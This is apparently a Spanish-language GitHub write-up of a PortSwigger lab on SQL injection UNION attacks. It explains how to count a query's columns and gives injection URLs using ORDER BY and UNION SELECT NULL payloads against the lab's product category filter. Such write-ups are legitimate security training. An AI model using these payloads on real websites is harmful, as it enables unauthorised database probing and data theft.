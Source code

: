 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)

Esto se vería algo así:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0af7cb7d-db50-4ae9-8462-f7cb35c71ac2)

OJO! port swigger no acepta numeros por eso marca error:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/bb3ee3ea-2a12-4443-ae86-867df5e71359)

PAra hacerlo funcionar se necesita poner NULL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/419b752f-d2a3-4e30-9772-cb9c1bfd548a)

Aunque en este caso no se ven los números en la pantalla, en realidad si pasa el laboratorio, esto debido al `NULL` y podemos saber que tenemos 3 columnas (eso pedía el lab después de todo)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/1c622ff2-4f1a-4e56-b3ff-42ab65c4887e)


## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

Utilizo NULL en lugar de números

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,NULL,NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/600fb155-e0c3-437c-96f9-e04ba315f31f)








